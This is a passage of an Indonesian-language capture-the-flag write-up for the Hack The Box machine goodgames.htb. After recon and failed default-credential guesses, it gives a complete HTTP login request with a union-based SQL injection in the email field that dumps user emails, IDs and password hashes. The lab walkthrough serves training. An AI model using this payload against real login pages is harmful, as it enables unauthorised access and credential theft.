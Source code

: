 Oke dari tahap recon awal kita mendapatkan informasi berikut:

* Website goodgames.htb menggunakan Werkzeug
* Tidak ada file sensitif yang terekspos selama proses enumerasi sehingga ekspoitasi kita akan berfokus pada fitur login, register, dan reset password.

### Exploitation

Yang pertama kita coba adalah halaman login. Kita bisa mencoba beberapa kombinasi default credentials seperti **admin@goodgames.htb**:**password**, **admin@goodgames.htb**:**admin**, dll. Tidak berhasil. Selanjutnya kita coba eksploitasi paling umum pada halaman login, SQL Injection.

Kalian bisa gunakan sqlmap atau kalau kalian ingin lebih mengasal skill kalian bisa gunakan cara manual. Saya sudah pernah menulis artikel tentang [Union Based SQL Injection](https://exploit.linuxsec.org/tutorial-sql-injection-manual/). Singkatnya, payload akhir kita adalah:

```
POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=admin@goodgames.htb' union select 1,2,3,group_concat(email,0x3a,id,0x3a,password) from user --+&password=admin
```

<figure><img src="../../.gitbook/assets/sql injection login page.png" alt=""><figcaption></figcaption></figure>
